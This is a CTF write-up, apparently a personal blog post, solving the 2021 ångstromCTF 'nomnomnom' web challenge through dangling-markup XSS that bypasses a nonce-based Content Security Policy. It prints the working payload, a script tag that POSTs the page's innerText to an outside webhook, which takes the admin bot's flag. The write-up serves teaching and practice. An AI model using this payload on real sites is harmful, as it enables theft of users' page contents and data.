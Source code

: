 ```yaml
---
title: "2021 ångstromCTF - nomnomnom Challenge"
layout: post
date: 2021-08-04 11:25
image: /assets/images/favicon/apple-touch-icon-76x76.png
headerImage: false
tag:
- CTF
- Web
- Dangling Markup
- ångstromCTF
category: blog
author: Casparov
description: Writeup for the nomnomnom Web challenge in the 2021 ångstromCTF.
---
```



## <u> The Challenge </u>
I had the pleasure of participating in the 2021 ångstromCTF, and within it, the challenge I ended up enjoying the most was:

<img class="image" src="/assets/images/nomnomnomLanding.PNG">

## <u> Analysis </u>

To begin, as per usual for any web challenge I immediately looked at the source code, html code and the game itself. A few moments later it's safe to say that this challenge is an XSS challenge, due to this section inside the source code:

```javascript
return res.send(`
<!DOCTYPE html>
<html>
	<head>
		<meta http-equiv='Content-Security-Policy' content="script-src 'nonce-${nonce}'">
		<title>snek nomnomnom</title>
	</head>
	<body>
		${extra}${extra ? '<br /><br />' : ''}
		<h2>snek goes <em>nomnomnom</em></h2><br />
		Check out this score of ${score}! <br />
		<a href='/'>Play!</a> <button id='reporter'>Report.</button> <br />
		<br />
		This score was set by ${name}
		<script nonce='${nonce}'>
function report() {
	fetch('/report/${req.params.shareName}', {
		method: 'POST'
	});
}

document.getElementById('reporter').onclick = () => { report() };
		</script> 
		
	</body>
</html>`);
});
```

The game allows you to manually enter your own name within the browser window here, which provides an xss vector via the name variable. Any HTML tags inserted as name will be treated as actual HTML code!

## <u> Solution </u>

It took quite a while to find the solution for this challenge, and I started to go down an iframe rabbit hole. The main problem was the fact there was a `CSP (Content Security Policy)` that was blocking every script tag I provided because it required the usage of a randomly generated `nonce` as an attribute.

```html
<!DOCTYPE html>
<html>
	<head>
		<meta http-equiv='Content-Security-Policy' content="script-src 'nonce-a03da7bf8449792432c9623fa0644875'">
		<title>snek nomnomnom</title>
	</head>
	<body>
		
		<h2>snek goes <em>nomnomnom</em></h2><br />
		Check out this score of 1! <br />
		<a href='/'>Play!</a> <button id='reporter'>Report.</button> <br />
		<br />
		This score was set by <script>alert(1)</script>
		<script nonce='a03da7bf8449792432c9623fa0644875'>
function report() {
	fetch('/report/62231e1a14a18abb', {
		method: 'POST'
	})
}

document.getElementById('reporter').onclick = () => { report() }
		</script> 
		
	</body>
</html>
```
<img class = "image" src="/assets/images/nomnomnomnonce2.PNG">

That was until I found out that unfinished script tags ate (haha! nom'd) the script tag that was below it. The good thing about this is that it meant I could inject javascript code into the `<script src>` attribute with the nonce as the attribute of it, due to firefox being very weird with a topic called Dangling Markup.

The solution therefore is called a Dangling Markup Injection.
The report button sent a Simulated browser in admin context via Puppeteer within firefox, so the xss could be used to steal the "admin's" browser window, which was the only thing that displayed the flag, as seen three images above inside the `extra` variable.

In order to steal the admin's browser window though, we need to send their `document.body.innerText` to a webhook. Luckily, https://webhook.site is an easy solution to this and so the final solution to this problem is:

```html
<script src="data:text/javascript, fetch('webhookurlgoeshere', {method: 'POST', mode: 'no-cors', body: document.body.innerText})"
```

The `no-cors` mode basically allows us to bypass any problems with `CORS (Cross-Origin-Resource-Sharing)` which in turn stops any `Access-Control-Allow-Origin` errors.

But wait... that has nom'd everything including the report button functionality! Easy fix: just copy and paste the report function into the firefox console and run the function!

```javascript
function report() {
    fetch('/report/f8f9270fe102e65a', {
        method: 'POST'
    })
}
```

&nbsp;<img class = "image" src="/assets/images/report.PNG">&nbsp;

Once you have done that, your webhook.site should have recieved a request with the flag in it!

<img class = "image" src="/assets/images/sol.PNG">

Special thanks to Clanger and Feldma from my team for helping me with this challenge for a long time. This challenge ended up taking me a good 2 days due to my lack of knowledge about Dangling Markup. But it was still incredibly fun none-the-less!